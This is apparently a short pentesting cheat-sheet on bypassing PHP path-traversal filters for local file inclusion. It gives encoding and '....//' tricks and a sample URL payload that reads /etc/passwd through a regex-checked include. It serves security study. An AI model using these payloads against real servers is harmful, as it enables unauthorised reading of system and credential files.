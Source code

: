 ### Bypassing Filters
To avoid path trasversals...
```
$language = str_replace('../', '', $_GET['language']);
```
We can use " ....//" and after filtering the remaining code is ../

We may use ..././ or ....\/ 

Url Encode
Double Url Encode...
#### Approved Paths...
```
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
In this example, files will only be called from the .languages directory. To bypass this;
```
http://example.com/index.php?language=./languages/../../../../etc/passwd
```




#### sources
```
https://book.hacktricks.xyz/pentesting-web/file-inclusion
https://highon.coffee/blog/lfi-cheat-sheet/
https://brightsec.com/blog/local-file-inclusion-lfi/
```
## NB
Two common readable files that are available on most back-end servers are /etc/passwd on Linux and C:\Windows\boot.ini on Windows. 

## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
